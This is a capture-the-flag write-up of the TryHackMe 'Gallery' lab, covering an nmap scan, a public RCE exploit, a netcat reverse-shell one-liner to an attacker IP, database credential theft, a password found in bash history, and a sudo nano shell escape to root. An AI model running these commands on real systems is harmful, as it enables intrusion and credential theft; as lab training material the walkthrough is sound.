 ```yaml
---
title: "Gallery TryHackMe"
date: "02-15-2022"
author: "Reda BELHAJ"
summary: "The gallery is not very well secured. Designed and created by @Mikaa !"
tags: ["TryHackMe", "Ctf", "Writeup"]
image: "/images/Gallery/bg.png"
---
```

Let’s take a look at the [Gallery CTF](https://tryhackme.com/room/gallery666) on TryHackMe Created by **@Mikaa**.

## Enumeration
### Nmap Scan
The first step of my enumeration was a scan with **nmap**. by the command:

```
sudo nmap 10.10.22.177 -sC -sS
```
The “Nmap Output” displayed `2` service running under port 80 and 8080.
![Nmap](/images/Gallery/nmap.jpg)

And I've decided to search the http-title of the web application running in 8080: **Simple Image Gallery** and it come out as a *Content management system*.

## Exploiting
Now let’s look for exploits that we can use.

```
searchsploit Simple Image Gallery
```
![SearchSploit](/images/Gallery/searchsploit.jpg)
The Output displayed that there's a **RCE**: Remote Code Execution and a **SQLi**: SQL Injection. And I've decide to go with the RCE vulnerability:
![Exploit](/images/Gallery/exploit.jpg)

So it successfully did a RCE and uploaded a shell on the host. As we open the link that we got, we did see a result of the RCE and I tried **ls** command on it:
![LsAll](/images/Gallery/lsall.jpg)

### Reverse Shell
I set up my netcat listener on port 4444 and I fired up Burp and sent a POST request with the following encoded payload using URL encoding:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.174.180 4444 >/tmp/f
```

**Great!** I received a reverse connection on my port 4444. And I've upgraded the shell with pty module: 
![shellOpen](/images/Gallery/shellOpen.jpg)


## Admin’s Password Hash
Now we're in the machine and I decided to take a look at the `initialize.php` file which gave me the username and the password for accessing the database:
![initial](/images/Gallery/initial.jpg)

Then I tried to connect to the database using the credentials of last file. And I found the **Admin’s Password Hash**:
![insideDB](/images/Gallery/insideDB.jpg)

## User Flag
Inside the home directory of the mike user. I notice a file called `user.txt` but I didn't have the rights to access it. 
![premDenied](/images/Gallery/premDenied.jpg)

As I was exploring I found a directory named `backups` and in it there was a folder with the name `mike_home_backup`. And inside it I looked for the *bash_history* file:
![bashHistory](/images/Gallery/bashHistory.jpg)

**Boom** we found mike's password.

```
su mike
```

Then I found the user.txt file:

```
THM******************
```

## Root Flag
Now it’s time to escalate our privileges and get the root flag. 
![sudoL](/images/Gallery/sudoL.jpg)

So as a result of `sudo -l` we found that there's a file called `/opt/rootkit.sh` which mike was allowed to run as sudo. And it ask for the user input and with the use of the switch cases it delivers:

Lastely I searched for nano on [GTFObins](https://gtfobins.github.io/) and I found this:

```
sudo /bin/bash /opt/rootkit.sh
^R^X
reset; sh 1>&0 2>&0
```

Running the file using sudo, entering the read command to open nano and following the steps of GTFObins helps me escalate to root:
![privEscDone](/images/Gallery/privEscDone.jpg)

Then I found the root.txt file:

```
THM******************
```